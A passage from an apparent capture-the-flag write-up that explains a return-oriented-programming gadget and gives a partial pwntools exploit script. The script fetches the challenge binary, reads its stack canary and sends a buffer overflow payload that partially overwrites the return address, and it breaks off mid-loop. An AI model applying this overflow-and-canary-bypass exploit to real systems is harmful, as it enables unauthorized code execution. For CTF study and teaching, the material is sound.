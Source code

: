 This essentially uses the top of the stack (`rsp`) as a string pointer and stores it into `rdi`, then pops that string off. So, we can just put our string on top of the stack and go to this gadget, then go to our `win`!

# Final Script
```python
from base64 import b64decode
from pwn import *
from time import sleep

def init(n = -1):
    if args.LOCAL:
        conn = process("./bin")
        b = open("./bin", "rb").read()
        
    else:
        conn = remote("hto2024-nlb-fa01ec5dc40a5322.elb.ap-northeast-2.amazonaws.com", 5001)
        conn.recvline()
        conn.recvline()

        binary = conn.recvline(keepends=False).decode()
        b = b64decode(binary)
        with open("bin" + ("" if n == -1 else str(n)), "wb") as f:
            f.write(b)
        
    return conn, b

TRIAL = 50
for _ in range(TRIAL):
    conn, b = init()
    if args.TEST:
        pause()

    try:
        canary_base = 0x3020
        canary_offset = b[0x3070] * 8
        canary_pos = canary_base + canary_offset

        canary = b[canary_pos:canary_pos+8]
        info("Canary: " + hex(int.from_bytes(canary, 'little')))

        padding = b"A" * (0x218 - 0x10)

        """
        conn.sendafter(b"> ", padding)
        conn.recvuntil(b"> ")

        res = conn.recvline(keepends=False)
        leaked = res[len(padding):len(padding)+8]

        assert(canary == leaked)
        """
        
        payload = padding + canary + b"B" * 8
        # LSB to `main_inner`
        payload += b"\x29\x13"

        assert(len(payload) <= 0x300)
        conn.sendafter(b"> ", payload)

        conn.recvuntil(b"> ")

        # See if we're back in `main_inner`
```